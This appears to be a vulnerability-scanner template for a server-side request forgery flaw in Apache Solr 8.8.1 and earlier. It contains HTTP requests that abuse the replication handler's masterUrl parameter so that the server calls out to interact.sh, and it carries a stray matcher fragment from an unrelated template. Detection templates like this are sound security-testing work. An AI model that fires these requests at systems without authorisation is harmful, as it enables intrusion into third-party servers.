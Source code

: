 **Type - word**

- name - RCE
- words
  1. CVE-2021-41773-POC

---

# Apache Solr \<=8.8.1 - Server-Side Request Forgery

## Description

- Apache Solr versions 8.8.1 and prior contain a server-side request forgery vulnerability. The ReplicationHandler (normally registered at "/replication" under a Solr core) in Apache Solr has a "masterUrl" (also "leaderUrl" alias) parameter that is used to designate another ReplicationHandler on another Solr core to replicate index data into the local core. To prevent a SSRF vulnerability, Solr ought to check these parameters against a similar configuration it uses for the "shards" parameter.
- severity - critical
- tags - cve,cve2021,apache,solr,ssrf

## Requests

### Step - 1

```
GET /solr/admin/cores?wt=json HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Step - 2

```
GET /solr/{{core}}/replication/?command=fetchindex&masterUrl=https://interact.sh HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Matchers

**Type - word**

- words
  1. \<str name="status">OK\</str>
- part - body

### Extractors
